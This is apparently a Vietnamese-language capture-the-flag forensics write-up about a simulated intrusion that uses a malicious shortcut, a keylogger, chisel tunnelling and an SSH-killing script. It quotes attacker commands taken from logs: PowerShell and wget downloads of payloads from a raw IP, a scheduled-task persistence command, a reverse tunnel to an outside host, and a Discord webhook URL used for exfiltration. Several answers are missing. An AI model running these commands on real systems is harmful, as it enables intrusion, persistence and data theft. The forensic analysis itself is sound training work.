### 1. The threat actor abused an internal communication service between employees and shared a malicious file to facilitate lateral movement within the network. This activity is believed to have originated from TriDsk-WKS02 which was recently compromised. Provide the full path of the file that was downloaded.

Tìm tất cả Folder Downloads của các User thì t thấy user Martha chứa 1 shortcut 


-> Answer : C:\Users\Martha\Downloads\TriDsk-OCT-2025_ReleaseNotes_v1.pdf.lnk

### 2. The threat actor downloaded a keylogger to the endpoint to capture user keystrokes. Provide the exact URL used to download the keylogger.

Tìm các url có trong Event logs của user Martha ở trên


Ở đây chúng ta thấy threat actor tải 2 chương trình là 645.exe, và 6412.exe rồi đặt lần lượt ở các vị trí "C:\Users\Public\Music\temp.exe" và "$env:temp\svchosts.exe"

-> Answer : http://93.121.68.219:8908/645.exe

### 3. The threat actor identified and abused a protocol that enabled pivoting to other endpoint within the environment. They used a tool to facilitate further lateral movement abusing this protocol. Find the full command line used to move laterally using port forwarding.

Dựa theo thứ tự event logs của Powershell ta biết được sau khi tải 645.exe attacker lần lượt làm các việc sau
+ powershell -Command schtasks /create /sc minute /mo 10 /tn "update" /tr "C:\Users\martha\AppData\Local\Temp\wctBB85.exe" : tạo 1 task chạy wctaBB85.exe mỗi 10'
+ powershell -Command powershell.exe 'Invoke-WebRequest -Uri "http://93.121.68.219:8908/6412.exe" -OutFile "$env:temp\svchosts.exe"' : tải 6142.exe và đặt tên à svchosts.exe 
+ powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22 : khởi chạy svchosts.exe với các tham số sau 



Thông qua VirusTotal ta biết được svchosts.exe tương đồng chisel tunneling sử dụng SOCKS5 protocol . Lệnh ở trên nghĩa là attacker sẽ dùng máy  TriDsk-WKS01 tạo reverse tunnel từ 93.121.68.219:8000 (máy attacker) đến 10.101.1.12:22 (máy khác hỗ trợ SSH)

-> Answer : powershell -Command C:\Users\martha\AppData\Local\Temp\svchosts.exe client --fingerprint YyOMHvo9v7CraOiZmWDmEuRvP6fiIsIeroYRZUqq7f0= 93.121.68.219:8080 R:8000:10.101.1.12:22

### 4. To force the user to re-enter their credentials for credential harvesting, the threat actor deployed a script that continuously monitors for the execution of the process related to the protocol being abused and immediately terminates it. Provide the process termination time.

Theo như câu trên thì protocol bị abuse khả năng là ssh nên mình tìm ssh trong eventlog thì phát hiện có 1 block script của powershell


script này thực hiện vòng lặp cứ mỗi 1s sẽ kiểm tra có process nào tên ssh rồi kill ngay lập tức ( script được tạo ra lúc 2025-12-26 00:52:47). Sau mốc thời gian này event log không có phát hiện gì về việc kill process nên mình kiểm tra ở Prefetch



Ở đây ta thấy SSH.exe được truy cập lần cuối lúc 2025-12-26 01:09:08 ( mình đã thử khoảng thời gian này và 2025-12-26 01:09:09 nhưng vẫn không được)

### 5. Identify the time interval (in milliseconds) that the keylogger waits before sending captured data to the server.
Reverse temp.exe 


=> Answer : 1200000

### 6. The keylogger exfiltrated captured data to a remote server. Provide the full destination URL.
Từ đoạn trên t thấy nó gọi hàm Sub_1400023D0 để gửi về C2




=> Answer : https://discord.com/api/webhooks/1452445434894221455/pKIO5TZGrGL7KaWLb_H03S61nI9OcRe_UKvEHhOBgG507IyprUxzYzBSOyTj46c2AVCY

### 7.
Dựa vào câu 3 ta biết được máy đích mà Attacker lateral movement có IP 10.101.1.12, sau khi kiểm tra eventID 4624 (LogonType 3) từ máy $D01 ta phát hiện máy có IP trên là $APP01 cũng như máy $WKS01 có IP 10.101.2.7




Kiểm tra log wtmp trên $APP01



### 8. After moving laterally to the second system, the threat actor downloaded two malicious executables. When was the second executable file downloaded?
Kiểm tra .bash_history ta thấy người dùng tải file thứ 2 (wget http://93.121.68.219:8908/b21 -O /tmp/sh)



### 9. 